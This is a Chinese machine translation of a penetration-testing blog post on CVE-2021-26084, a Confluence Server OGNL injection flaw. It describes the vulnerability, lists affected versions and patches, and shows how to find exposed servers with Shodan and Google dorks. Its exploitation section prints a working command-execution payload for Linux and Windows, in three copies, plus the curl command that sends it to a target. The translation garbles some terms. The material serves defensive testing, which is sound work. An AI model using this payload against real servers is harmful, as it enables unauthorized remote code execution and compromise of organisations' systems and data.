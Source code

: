 # 如何检测和利用 CVE-2021-26084，合流服务器 RCE | Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-exploit-cve-2021-26084-confluence-server-rce>

像攻击者一样思考是正确的思维方式，可以帮助您更好地应对 RCE 漏洞的惊人增长。

作为一个圣灵降临者，你比任何人都清楚这一点。您也最适合利用您的经验和专业知识在恶意行为者之前检测暴露的关键资产。

为了帮助您帮助他人，在这本包含检测策略和缓解方法的实用指南中，我将探讨跨 Linux 和 Windows 的 Atlassian Confluence 服务器中的一个严重 RCE 漏洞。

让我们直入主题吧！

## **什么是合流？**

**Confluence** 是一款基于网络的企业协作软件，旨在存储、共享和处理不同的项目。它由**亚特兰蒂斯**开发，用 Java **编写。**虽然没有关于客户数量的公开数据，但我们可以有把握地假设，全球有成千上万的人将 Confluence 作为他们日常工作流程的一部分。

这也是我们决定针对这一特定漏洞推出测试指南的原因之一。

![](img/09c4282bb693a1c827024cb3941b3449.png)

## **合流服务器 RCE·沃恩如何工作**

CVE-2021-26084 基于对象图导航语言(OGNL)注入。我们为 [OGNL 注射](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)提供了完整的指南，这样你就可以在需要的时候深入了解。

这个特殊的 Confluence Server 漏洞允许攻击者注入 OGNL 代码，并在运行该服务器的用户权限下执行该代码。如果启用了注册或创建新用户选项，则未经验证的用户可以向端点发送恶意负载，并为 Confluence 服务器创建新条目，如**/pages/Create page-enter variables . action**，从而触发可导致远程代码执行的漏洞。

可从恶意负载中提到的“query string”html 标记中检索已执行代码的输出。

## **易受攻击的合流服务器版本**

该安全问题被追踪为 [CVE-2021-26084](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26084) ，影响以下版本的 Confluence 服务器:

*   6.13.23 版之前的所有版本，

*   从 6.14.0 版到 7.4.11 版

*   从 7.5.0 版到 7.11.6 版

*   从 7.12.0 版到 7.12.5 版

根据公司[安全发布](https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html)。

## **CVE 的业务影响-2021-26084**

当成功利用时，该漏洞允许未经验证的攻击者获得**对目标** t 的完全控制，危及 Confluence 服务器使用的所有服务和数据库，并在内部网络中进行枢纽分析。

## **如何在您的环境中找到易受 CVE-2021-26084 攻击的目标**

为了帮助您的组织和客户避免恶意黑客利用该漏洞造成的巨大损失，我将展示三种方法来查找可能受其影响的实例。

### **使用 Shodan**

使用带有***X-Confluence-Request-Time***cookie 的 Shodan 搜索引擎将为有动机的攻击者揭示更多潜在目标:

![](img/92fcaf8734bbc20b17c632425d19788f.png)

在写这篇文章的时候，Shodan 透露了至少有 **12，342 个潜在易受攻击的服务器**。

### **使用谷歌呆子**

您还可以使用 Google Dorks 通过以下搜索查询来找出 Confluence 主机:

***inurl:/合流/页数***

![](img/8691a5e6d94f74d054413609aa1107da.png)

### **使用 PublicWWW**

PublicWWW 是一个搜索引擎，你可以用它根据源代码内容、回复头、cookies 和使用的技术来搜索网站。您可以在这个搜索引擎中对 Shodan 查询使用我刚才提到的相同 cookie:

***X-合流-请求-时间***

![](img/cab35754b74d0480e7ef1c1a131750f6.png)

找到目标后，就该验证哪些目标实际上是可利用的了，这样您就可以提供准确的测试报告，帮助以最有效的方式指导补救。

## **如何在道德黑客活动中手动利用 CVE-2021-26084**

为了利用 CVE-2021-26084 ，你需要创建一个简单的有效载荷，如下所示，并将其保存到一个文件中:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022<Command>\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

有效负载中使用的命令可以用于 Linux 和 Windows 操作系统，例如–ls–Linux 命令和–dir–Windows 命令有效负载看起来像:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022ls\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

对于 **ls** Linux 命令和:

```
queryString="aaaaaaaa\\u0027+{Class.forName(\\u0027javax.script.ScriptEngineManager\\u0027).newInstance().getEngineByName(\\u0027JavaScript\\u0027).\\u0065val(\\u0027var isWin =java.lang.System.getProperty(\\u0022os.name\\u0022).toLowerCase().contains(\\u0022win\\u0022); var cmd = new java.lang.String(\\u0022dir\\u0022);var p = newjava.lang.ProcessBuilder(); if(isWin){p.command(\\u0022powershell.exe\\u0022, \\u0022/c\\u0022, cmd); } else{p.command(\\u0022bash\\u0022, \\u0022-c\\u0022, cmd); }p.redirectErrorStream(true);var process= p.start(); var inputStreamReader = new java.io.InputStreamReader(process.getInputStream());var bufferedReader = new java.io.BufferedReader(inputStreamReader); var line = \\u0022\\u0022; varoutput = \\u0022\\u0022; while((line = bufferedReader.readLine()) != null){output =output + line + java.lang.Character.toString(10); }\\u0027)}+\\u0027”
```

对于 **dir** Windows 命令

使用以下命令，您可以触发 RCE:

```
curl -XPOST -d @<payload_file> http(s)://<Target_ip>:<port>/pages/createpage-entervariables.action?SpaceKey=x
```

注入命令的输出可能反映在先前在有效负载构造中使用的 queryString HTML 资源中。

如果你想尝试另一种更快的开发策略，看看 Pentest-Tools.com 吧。

## **如何减轻 CVE-2021-26084**

我们建议在您的环境中应用可用的补丁，因为 Atlassian 已经发布了针对 CVE-2021-26084 的[补丁。](https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html)

| **产品构建** | **固定版本** |
| --- | --- |
| Confluence 6.13.x 及 6.13 之前的所有版本 | 6.13.23 |
| Confluence 7.4.x 及 7.4.0 之前的所有版本 | 7.4.11 |
| Confluence 7.11.x 及 7.4.0 之前的所有版本 | 7.11.6 |
| Confluence 7.12.x 及 7.4.0 之前的所有版本 | 7.12.5 |

随着 RCE 漏洞到处出现，你需要所有你能得到的帮助来控制局面，并确保你的同事或客户得到准确的报告。从我们的道德黑客之家到您的邮箱，直接获取新的测试指南！